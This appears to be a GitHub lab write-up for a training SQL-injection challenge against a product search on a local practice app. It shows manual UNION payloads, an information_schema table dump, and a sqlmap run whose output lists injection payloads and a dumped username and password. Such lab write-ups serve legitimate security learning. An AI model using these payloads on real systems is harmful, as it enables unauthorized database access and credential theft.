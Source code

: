 # Challange (SQL-Injection)

By sending injection payload with the item name we get positive results.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/0484b247-3695-46bd-a03d-d577e3140c55)

On sending simple requests through Repeater we got the content length of 2516 with details of the product.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/2de90f1a-a100-4b32-9e81-7e5a028eb6af)

On trying the Union query with payload: `' union select 1,2,3,4#` in the encoded form we get positive feedback.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/89e4587c-4e0f-4017-a768-947d4a7a4a89)

On trying to extract the version info get the version in return.

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/6f73d06f-1057-4fa5-83da-e353a97667c2)

Dump table names using the cmd:`'+union+select+1,2,3,table_name+from+information_schema.tables%23`

![image](https://github.com/singhx-hub/WebVulnLab/assets/126919241/dedd7170-d45e-48c8-a09e-5e90bfa63828)

Give a try with a tool called sqlmap, by coping request data to a file.

```bash
└─$ sqlmap -r challange -dump -T injection0x03_users
        ___
       __H__                                                                                                                                                                                                      
 ___ ___[(]_____ ___ ___  {1.7.6#stable}                                                                                                                                                                          
|_ -| . [(]     | .'| . |                                                                                                                                                                                         
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                                         
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                      

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:08:31 /2023-07-15/

[11:08:31] [INFO] parsing HTTP request from 'challange'
[11:08:31] [INFO] resuming back-end DBMS 'mysql' 
[11:08:31] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: product (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: product=Senpai Knife Set' AND 9407=9407 AND 'fnVn'='fnVn

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: product=Senpai Knife Set' AND (SELECT 4059 FROM (SELECT(SLEEP(5)))pVIN) AND 'RYrH'='RYrH

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: product=Senpai Knife Set' UNION ALL SELECT NULL,NULL,CONCAT(0x71717a6271,0x516b7148714f51565a6d724e736241747349735a4945614d6f6f76514f6769477065726c50526c58,0x71766b7871),NULL-- -
---
[11:08:31] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[11:08:31] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[11:08:31] [INFO] fetching current database
[11:08:31] [INFO] fetching columns for table 'injection0x03_users' in database 'peh-labs'
[11:08:31] [INFO] fetching entries for table 'injection0x03_users' in database 'peh-labs'
Database: peh-labs
Table: injection0x03_users
[1 entry]
+----------+------------------+
| username | password         |
+----------+------------------+
| takeshi  | onigirigadaisuki |
+----------+------------------+

[11:08:31] [INFO] table '`peh-labs`.injection0x03_users' dumped to CSV file '/home/singhx/.local/share/sqlmap/output/localhost/dump/peh-labs/injection0x03_users.csv'
[11:08:31] [INFO] fetched data logged to text files under '/home/singhx/.local/share/sqlmap/output/localhost'

[*] ending @ 11:08:31 /2023-07-15/


```

W00t Cracked...
